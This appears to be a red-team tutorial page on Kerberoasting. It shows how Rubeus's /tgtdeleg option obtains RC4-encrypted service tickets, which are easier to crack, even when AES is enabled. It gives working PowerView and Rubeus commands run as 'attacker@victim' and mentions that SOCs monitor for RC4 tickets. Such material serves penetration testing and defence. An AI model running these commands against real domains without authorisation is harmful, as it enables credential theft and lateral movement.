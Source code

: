 # Kerberoasting: Requesting RC4 Encrypted TGS when AES is Enabled

It is possible to kerberoast a user account with SPN even if the account supports Kerberos AES encryption by requesting an RC4 ecnrypted \(instead of AES\) TGS which easier to crack.

## Execution

First off, let's confirm we have at least one user with an SPN set:

{% tabs %}
{% tab title="attacker@victim" %}
```text
Get-NetUser -SPN sandy
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/screenshot-from-2019-05-06-15-37-30.png)

Since the user account does not support Kerberos AES ecnryption by default, when requesting a TGS ticket for kerberoasting with rubeus, we will get an RC4 encrypted ticket:

{% tabs %}
{% tab title="attacker@victim" %}
```text
F:\Rubeus\Rubeus.exe kerberoast /user:sandy
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/screenshot-from-2019-05-06-15-39-53.png)

If the user is now set to support AES encryption:

![](../../.gitbook/assets/screenshot-from-2019-05-06-15-40-51.png)

By default, returned tickets will be encrypted with the highest possible encryption algorithm, which is AES:

{% tabs %}
{% tab title="attacker@victim" %}
```text
F:\Rubeus\Rubeus.exe kerberoast /user:sandy
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/screenshot-from-2019-05-06-15-58-37.png)

## Requesting RC4 Encrypted Ticket

As mentioned in the beginning, it's still possible to request an RC4 ecnrypted ticket \(if RC4 is not disabled in the environment, which does not seem to be common yet\):

{% tabs %}
{% tab title="attacker@victim" %}
```text
F:\Rubeus\Rubeus.exe kerberoast /tgtdeleg
```
{% endtab %}
{% endtabs %}

Even though AES encryption is supported by both parties, a TGS ticket encrypted with RC4 \(encryption type 0x17/23\) was returned. Note that SOCs may be monitoring for tickets encrypted with RC4:

![](../../.gitbook/assets/screenshot-from-2019-05-06-16-03-06.png)

## References

{% embed url="https://www.harmj0y.net/blog/redteaming/kerberoasting-revisited/" %}

